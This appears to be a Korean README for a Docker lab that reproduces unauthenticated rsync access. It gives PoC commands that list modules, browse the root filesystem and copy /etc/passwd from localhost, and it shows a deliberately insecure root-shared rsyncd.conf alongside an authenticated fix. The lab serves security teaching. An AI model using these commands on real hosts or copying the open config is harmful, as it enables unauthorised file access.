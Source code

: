 # rsync 무단 접근 취약점

rsync는 SSH와 rsync를 이용하여 원격 파일 전송을 지원하는 Linux용 데이터 백업 도구입니다.
만약 대상에 rsync가 활성화가 되어있고, 이에 대해 ACL(Access Control Line)이나 별도의 비밀번호가 설정되어있지 않다면 무단으로 해당 machine에 접근하여 파일을 읽고 쓸 수 있습니다

## Container 환경 구축
```
docker compose build
docker compose up -d
```
Container가 올라가는 시간이 좀 길어서 넉넉잡아 10분정도 기다리셔야 합니다

## PoC
모든 PoC 코드는 shell script로 동일하게 작성이 되어있기에 해당 스크립트를 이용하셔도 됩니다.

poc1.sh
```
rsync rsync://localhost:873/
```
위 코드를 이용하면 설치된 src 모듈을 확인할 수 있다.

![](1.png)

poc2.sh
```
rsync rsync://localhost:873/src/
```
위 코드를 이용하면 Container(machine)의 / 경로의 모든 파일들을 출력한다.

![](2.png)

poc3.sh
```
rsync -av rsync://localhost:873/src/etc/passwd ./
```
위 코드를 이용하면 Container(machine)의 passwd 파일을 현재 directory에 passwd 파일을 생성하여 기록한다.

![](3.png)

## 이유

rsync를 실행할 때 설정 파일인 rsyncd.conf 파일은 아래와 같다
```
uid = root
gid = root
use chroot = no
max connections = 4
syslog facility = local5
pid file = /var/run/rsyncd.pid
log file = /var/log/rsyncd.log

[src]
path = /
comment = src path
read only = no
```
위 파일에는 별도의 인증 절차가 존재하지 않고 게다가 root directory를 공유하게 설정되어있다. 따라서 ACL도 설정이 되어있지 않다면 누구나 접근하여 사용할 수 있다. 따라서 인증 절차를 설정할 필요가 있다.
```
uid = root
gid = root
use chroot = no
max connections = 4
syslog facility = local5
pid file = /var/run/rsyncd.pid
log file = /var/log/rsyncd.log

[src]
path = /
comment = src path
read only = no
auth users = user1, user2
secrets file = /etc/rsync.auth
```
위 코드에는 user name에 대한 인증 목록을 생성했고 별도의 key file이 있어야 접속이 가능하게 설정하였다. 이외에도 ssh나 http에서 인증절차를 추가하는 방법도 존재한다.
